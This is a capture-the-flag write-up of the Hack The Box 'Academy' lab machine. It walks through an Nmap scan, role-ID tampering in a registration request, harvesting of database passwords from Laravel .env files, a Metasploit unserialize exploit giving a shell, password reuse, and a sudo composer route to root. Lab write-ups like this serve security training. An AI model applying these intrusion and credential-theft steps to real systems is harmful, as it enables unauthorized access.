 # Lab Academy

Date: 2024/06/23

## Enumeration

### Port Scanning

I found three open ports by running the following Nmap command:

```bash
nmap -sV -sC -O -p22,80,33060 <IP> -v -oN services/v_ports.txt -oX services/v_ports.xml
```

The scan provided the following information:

```ruby
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Hack The Box Academy
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

### Port 80 Analysis

To properly access the web service, I edited the hosts file located at */etc/hosts* and mapped the target IP to the name **academy.htb**. I then used BurpSuite to update the scope and track only the target hostname.

The website presented a simple web application allowing user registration and login. After logging in, the user is presented with a basic web page.
Using BurpSuite, I noticed that I could change the role ID from 0 to 1 during registration, allowing access to an admin page (admin.php). The modified request looked like this:

```
uid=super1&password=super1&confirm=super1&roleid=1
```

On the admin page, I found a virtual hostname **dev-staging-01.academy.htb**, which I also added to the hosts file. This new application provided additional information:

```
* SERVER_SOFTWARE   "Apache/2.4.41 (Ubuntu)"
* DOCUMENT_ROOT     "/var/www/html/htb-academy-dev-01/public"
* SERVER_ADMIN      "admin@htb"
* APP_DEBUG         "true"
* APP_NAME          "Laravel"
* DB_DATABASE       "homestead"
* DB_USERNAME       "homestead"
* DB_PASSWORD       "secret"
```

## Exploitation

Using Metasploit, I searched for potential exploits:

```bash
search laravel type:exploits
```

I found and used the exploit/unix/http/laravel_token_unserialize_exec module to get a shell as the www-data user.

## Post-Exploitation

In the academy web root folder, I found another **.env** file:

```bash
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379 

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```

Here I notice an interesting password: **mySup3rP4s5w0rd!!**.

## User Enumeration

From the */home* directory, I listed the users:

```bash
www-data@academy:/home$ ls -la
total 32
drwxr-xr-x  8 root     root     4096 Aug 10  2020 .
drwxr-xr-x 20 root     root     4096 Feb 10  2021 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x  5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
```

I also checked the */etc/passwd* file:

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

I used the password *mySup3rP4s5w0rd!!* from the .env file to access the user **cry0l1t3**.

## Local Enumeration

I check manually to enumerate local information, but I did't get any infomration.
I uploaded the [linPEAS.sh](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md) script to automate local enumerate and I found a new password for user **mrb3n** with **mrb3n_Ac@d3my!**.
Using this password, I gained access to the user and found that they had sudo permissions for the **composer** binary.
Referring to [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo), I executed commands to escalate privileges to root.

*** 
